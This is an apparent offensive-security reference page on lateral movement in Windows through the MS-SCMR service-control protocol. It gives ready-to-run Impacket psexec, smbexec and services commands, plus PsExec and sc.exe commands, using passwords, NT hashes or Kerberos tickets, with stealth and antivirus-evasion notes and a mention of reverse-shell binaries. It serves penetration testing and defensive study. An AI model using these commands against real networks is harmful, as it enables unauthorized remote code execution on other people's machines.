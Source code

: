 ```yaml
---
label: MS-SCMR
---
```


# MS-SCMR: Service Control Manager Remote Protocol

> **Typical requirements**
>
> * Credentials (password, NT hash, Kerberos TGT) of local administrator on target machine.
> * Read-write SMB share access.
> * Remote SCM enabled on the target machine (always by default).
> * SMB share enabled on the target machine (always by default).

## Description

Through the [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/705b624a-13de-43cc-b8a2-99573da3635f) (RPC) protocol, Windows allows remote communication with another machine's [Service Control Manager](https://learn.microsoft.com/pl-pl/windows/win32/services/service-control-manager) (SCM). This allows, among other things, remote startup of services. This capability ultimately allows the user to execute code on another machine (by creating a service), which is the basis for techniques like PsExec and SmbExec.

PsExec and SmbExec are well-known attacks designed to establish a pseudo-interactive "shell" on the target machine. Both attacks require access to SMB share of the target host (445/TCP).

It is worth remembering that remote service creation is a built-in feature of standard `sc.exe`. There is no magic here, it is a standard feature of Windows. Without SMB access, the service will execute, but we cannot provide a malicious binary to the service or receive a response. Most often, however, if remote execution of the service is possible, a read-write SMB share is also available (e.g. default `ADMIN$` or `C$` share).

By default, using service execution techniques a user needs to be a **local administrator** on the target machine to remotely interact with SCM via RPC. Windows services executed by the local administrator by default run in the context of **SYSTEM user**. Logon via MS-SCMR (RPC call) is of the **Network type** (no reusable credentials).

## PsExec

> **IMPORTANT**: A user who wants to use PsExec on a remote machine must have read-write access to at least one SMB share. Without remote SMB access, it is not possible to use PsExec.

Linux:

```bash
# Using password
impacket-psexec $domain/$user:$password@$host

# Using NT hash
impacket-psexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-psexec $domain/$user@$host -k -no-pass
```

Windows ([SysInternals - PsExec.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec)):

```powershell
# Using password
.\PsExec.exe -accepteula -u $user -p $password \\$HOST cmd

# Using Kerberos TGT (in-memory)
.\PsExec.exe -accepteula -u $user \\$HOST cmd
```

PsExec works by writing an `.exe` binary to the writable SMB share on the target host. Then, SCM is called remotely (via RPC) to execute the binary using created service. Binary creates a named pipe accessible via SMB. This named pipe is used by the user to execute commands remotely and read the output. Two-way communication is established via SMB.

> **Caveats**:
>
> * A generic binary is often detected by AV.
> * PsExec leaves artifacts behind on SMB share that require manual cleaning. The uploaded binary is not automatically removed.

## SmbExec

Linux:

```bash
# Using password
impacket-smbexec $domain/$user:$password@$host

# Using NT hash
impacket-smbexec -hashes :$nt_hash $domain/$user@$host

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-smbexec $domain/$user@$host -k -no-pass

# Debug mode (shows every executed `binPath` command)
impacket-smbexec [...] -debug
```

Unlike PsExec, SmbExec doesn't transfer a detectable binary to the target host. Instead of using a malicious binary, SmbExec launches a new service (using SCM remotely via RPC) with each new command. It executes the command in the `binPath` parameter of the service and closes the service. It just executes each desired command as a new service. Output is read via SMB share. There is no leftover on disk.

SmbExec is stealthier alternative to noisy and easy to detect PsExec. Nevertheless, it is important to remember that an event log is created for every command executed (service creation).

> **Caveats**
>
> * Each command run by SmbExec is a separate service. Therefore, there is no real session. Loading modules in PowerShell makes no sense. You have to load and call the module in a single command.
> * There's no `cd` command. Again - there's no real session.

## Raw Service Execution (ScExe)

You can use the standard Windows tool `sc.exe` to run a service on a remote machine. It can be a single shell command or, for example, a reverse-shell binary sent over SMB.

Linux (`impacket-services` is basically a Linux port of native `sc.exe`):

```bash
# Using password
impacket-services $domain/$user:$password@$host [action]

# Using NT hash
impacket-services -hashes :$nt_hash $domain/$user@$host [action]

# Using Kerberos TGT
export KRB5CCNAME=$tgt_ccache_file
impacket-services $domain/$user@$host -k -no-pass [action]

# Actions
list -h
create -h
start -h
stop -h
delete -h
```

Windows:

> **IMPORTANT**: Watch out for spaces in arguments. They are necessary!

```powershell
# Create and start service
sc \\$host create $svc_name binPath= "cmd.exe /c $command" start= auto
sc \\$host start $svc_name

# Stop and delete service
sc \\$host stop $svc_name
sc \\$host delete $svc_name
```

<!-- TODO: How to provide credentials to `sc.exe`. -->

## References

* [Rift, _SMBExec: Red Side Analysis_](https://rift.stacktitan.com/smbexec/)
* [Boitatech, _SmbExec/ScExec_](https://hacktricks.boitatech.com.br/windows/ntlm/smbexec)
* [Ryan Hausknecht, _Offensive Lateral Movement_](https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f)
